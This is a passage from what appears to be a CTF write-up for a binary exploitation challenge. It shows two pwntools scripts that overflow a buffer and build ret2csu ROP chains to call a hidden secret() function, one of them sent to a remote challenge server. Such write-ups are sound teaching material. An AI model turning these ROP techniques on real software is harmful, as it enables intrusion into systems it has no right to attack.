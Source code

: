 ```py

rop += ldr_x19_sp16
rop += b"B" * 256
rop += PADDING_8                  # x29
rop += strb_w0_x19                # x30
rop += p64(data_addr - 0x40 + 2)  # x19
rop += PADDING_8 * 2


# Final payload to call secret()
rop += csu_init_ldp
rop += PADDING_8 * 2
rop += PADDING_8    # x29 --> FP (Frame Pointer)
rop += csu_init_ldr # x30 --> LR (Procedure Link Register)

rop += p64(0)  # 0x19
rop += p64(1)  # 0x20

rop += p64(data_addr)   # 0x21 --> pointer to secret() function
rop += p64(0xDEADBEEF)  # 0x22

rop += p64(0xCAFEBABE900DF00D) # 0x23
rop += p64(0xFEEDBABEBAADF00D) # 0x24

log.info(f"ROPchain size: {len(rop)} bytes")

# pause()
r.sendlineafter(b"secret? ", rop)
r.sendlineafter(b"secret? ", b"0" * (0x64 - 1))
r.sendlineafter(b"secret? ", b"1" * (0x06 - 1))
r.sendlineafter(b"secret? ", b"2" * (0x40 - 1))

# r.interactive()
log.success(r.recvall().decode())
```
But there was a lot simpler way to do it that I've discovered during the CTF:
```py
from pwn import *

r = remote('aargh.heroctf.fr', 1337)

elf = ELF('./aargh_REDACTED')

ret2csu_init = 0x4007c8
ret2csu_call = 0x4007a8

buf = b'A'*0x108
buf += p64(ret2csu_init)
buf += p64(0)
buf += p64(ret2csu_call)
buf += p64(0)
buf += p64(1)
buf += p64(0x410e28) # ELF header ptr to .dynamic
buf += p64(0xdeadbeef)
buf += p64(0xcafebabe900df00d)
buf += p64(0xfeedbabebaadf00d)

buf += p64(0)
buf += p64(elf.sym['secret'])
buf += p64(0)
buf += p64(1)
buf += p64(0x410e28) # ELF header ptr to .dynamic
buf += p64(0xdeadbeef)
```